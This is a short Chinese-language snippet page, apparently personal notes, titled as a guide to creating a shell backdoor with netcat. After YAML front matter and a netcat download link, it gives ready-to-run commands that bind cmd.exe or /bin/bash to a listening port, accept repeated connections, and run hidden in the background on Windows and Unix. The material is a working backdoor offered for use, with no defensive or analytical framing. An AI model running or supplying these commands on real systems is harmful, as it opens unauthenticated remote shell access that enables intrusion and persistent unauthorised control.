 ```yaml
---
title: netcat创建shell后门
tags:
  - Snippet
  - shell
  - 后门
  - netcat
categories:
  - - shellcode
    - shell
date: 2023-02-08 10:44:55
---
```



[下载netcat](https://eternallybored.org/misc/netcat/)

```bash
# -l: 一次性, -t: 使用telnet协议, -e 关联程序
nc -l -p <端口> -t -e cmd.exe

# -L: 重复, -t: 使用telnet协议, -e 关联程序
nc -L -p <端口> -t -e cmd.exe

# 连接
nc <ip or server host> <port>
```

## 后台运行

```bash
# windows
start /b nc -L -p <端口> -t -e cmd.exe

# unix
nc -L -p <端口> -t -d -e /bin/bash
```

